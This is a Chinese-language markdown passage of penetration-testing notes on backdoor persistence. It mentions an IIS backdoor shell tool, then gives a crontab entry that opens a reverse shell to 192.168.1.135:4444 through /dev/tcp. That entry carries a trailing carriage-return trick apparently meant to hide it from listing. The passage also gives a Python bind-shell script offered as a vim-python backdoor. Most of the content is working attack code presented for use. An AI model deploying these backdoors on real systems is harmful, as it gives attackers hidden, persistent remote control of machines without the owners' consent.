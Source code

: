 打开 IIS_backdoor_shell 把网址填写进去即可 ![image-20221110201650944](../资源文件/图片/202303251637609.png)

## linux

### crontab计划任务弹shell

1. crontab默认是开的

```
crontab -l   //列出任务
crontab -e   //编辑任务
```

1. crontab -e `* * * * * /bin/bash -c '/bin/sh -i >&/dev/tcp/192.168.1.135/4444 0>&1';\r%100c\n`计划任务反弹shell

### vim python3扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统 正向后门

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
    server=socket(AF_INET,SOCK_STREAM)
    server.bind(('0.0.0.0',11))
    server.listen(5)
    print ('waiting for connect')
    talk, addr = server.accept()
    print ('connect from',addr)
    proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
        stdout=talk, stderr=talk, shell=True)
```
